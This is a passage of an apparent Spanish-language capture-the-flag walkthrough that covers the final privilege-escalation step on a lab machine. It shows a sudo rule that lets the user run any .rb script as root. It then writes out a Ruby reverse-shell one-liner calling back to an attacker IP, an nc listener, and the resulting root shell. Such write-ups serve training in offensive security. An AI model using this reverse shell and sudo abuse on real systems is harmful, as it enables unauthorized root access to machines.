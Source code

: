 Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for alice on 63d5012215ff:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User alice may run the following commands on 63d5012215ff:
    (ALL : ALL) NOPASSWD: /home/alice/scripts/*.rb
```

Vemos que podemos ejecutar cualquier script que tenga de extension `.rb` como el usuario `root` por lo que haremos lo siguiente:

```shell
cd /tmp
```

Ahora dentro de esta carpeta crearemos el siguiente archivo:

> script.rb

```rb
ruby -rsocket -e '
  spawn(
    "bash",
    [:in, :out, :err] => TCPSocket.new("<IP>", <PORT>)
  )
'
```

Lo guardamos y ahora lo ejecutaremos de la siguiente forma.

Pero antes de ejecutarlo nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si lo ejecutaremos de la siguiente forma:

```shell
echo "ruby -rsocket -e'spawn(\"bash\",[:in,:out,:err]=>TCPSocket.new(\"<IP>\",<PORT>))'" > /home/alice/scripts/script.rb
chmod 777 script.rb
sudo /home/alice/scripts/script.rb
```

Si volvemos donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7755 ...
connect to [192.168.5.186] from (UNKNOWN) [172.17.0.2] 58564
whoami
root
```

Veremos que ya somos `root`, por lo que habremos terminado la maquina.
